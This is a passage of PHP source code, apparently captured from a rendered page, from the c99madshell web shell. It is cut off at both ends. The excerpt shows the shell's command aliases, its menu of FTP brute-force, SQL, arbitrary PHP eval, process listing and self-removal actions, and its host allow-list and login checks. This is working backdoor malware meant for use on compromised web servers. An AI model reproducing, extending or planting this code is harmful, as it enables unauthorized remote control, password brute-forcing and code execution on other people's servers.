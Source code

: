 }
else
{
 $cmdaliases = array(
  array("-----------------------------------------------------------", "dir"),
  array("show opened ports", "netstat -an")
 );
}

$sess_cookie = "c99shvars";

$usefsbuff = TRUE;
$copy_unset = FALSE;

$quicklaunch = array(
 array("&lt;b&gt;&lt;hr&gt;HOME&lt;/b&gt;",$surl),
 array("&lt;b&gt;&lt;=&lt;/b&gt;","#\" onclick=\"history.back(1)"),
 array("&lt;b&gt;=&gt;&lt;/b&gt;","#\" onclick=\"history.go(1)"),
 array("&lt;b&gt;UPDIR&lt;/b&gt;","#\" onclick=\"document.todo.act.value='ls';document.todo.d.value='%upd';document.todo.sort.value='%sort';document.todo.submit();"),
 array("&lt;b&gt;Search&lt;/b&gt;","#\" onclick=\"document.todo.act.value='search';document.todo.d.value='%d';document.todo.submit();"),
 array("&lt;b&gt;Buffer&lt;/b&gt;","#\" onclick=\"document.todo.act.value='fsbuff';document.todo.d.value='%d';document.todo.submit();"),
 array("&lt;b&gt;Tools&lt;/b&gt;","#\" onclick=\"document.todo.act.value='tools';document.todo.d.value='%d';document.todo.submit();"),
 array("&lt;b&gt;Proc.&lt;/b&gt;","#\" onclick=\"document.todo.act.value='processes';document.todo.d.value='%d';document.todo.submit();"),
 array("&lt;b&gt;FTP brute&lt;/b&gt;","#\" onclick=\"document.todo.act.value='ftpquickbrute';document.todo.d.value='%d';document.todo.submit();"),
 array("&lt;b&gt;Sec.&lt;/b&gt;","#\" onclick=\"document.todo.act.value='security';document.todo.d.value='%d';document.todo.submit();"),
 array("&lt;b&gt;SQL&lt;/b&gt;","#\" onclick=\"document.todo.act.value='sql';document.todo.d.value='%d';document.todo.submit();"),
 array("&lt;b&gt;PHP-code&lt;/b&gt;","#\" onclick=\"document.todo.act.value='eval';document.todo.d.value='%d';document.todo.submit();"),
 array("&lt;b&gt;Self remove&lt;/b&gt;","#\" onclick=\"document.todo.act.value='selfremove';document.todo.submit();"),
 array("&lt;b&gt;Logout&lt;/b&gt;","#\" onclick=\"if (confirm('Are you sure?')) window.close()")
);

$highlight_background = "#c0c0c0";
$highlight_bg = "#FFFFFF";
$highlight_comment = "#6A6A6A";
$highlight_default = "#0000BB";
$highlight_html = "#1300FF";
$highlight_keyword = "#007700";
$highlight_string = "#000000";

@$f = $_REQUEST["f"];
@extract($_REQUEST["c99shcook"]);
/////////////////////////////////////
@set_time_limit(0);
$tmp = array();
foreach($host_allow as $k=&gt;$v) {$tmp[] = str_replace("\*",".*",preg_quote($v));}
$s = "!^(".implode("|",$tmp).")$!i";
if (!preg_match($s,getenv("REMOTE_ADDR")) and !preg_match($s,gethostbyaddr(getenv("REMOTE_ADDR")))) {exit("&lt;a href=\"http://securityprobe.net\"&gt;c99madshell&lt;/a&gt;: Access Denied - your host (".getenv("REMOTE_ADDR").") not allow");}
if (!empty($login))
{
 if (empty($md5_pass)) {$md5_pass = md5($pass);}
 if (($_SERVER["PHP_AUTH_USER"] != $login) or (md5($_SERVER["PHP_AUTH_PW"]) != $md5_pass))
 {
  if (empty($login_txt)) {$login_txt = strip_tags(ereg_replace("&nbsp;|&lt;br&gt;"," ",$donated_html));}
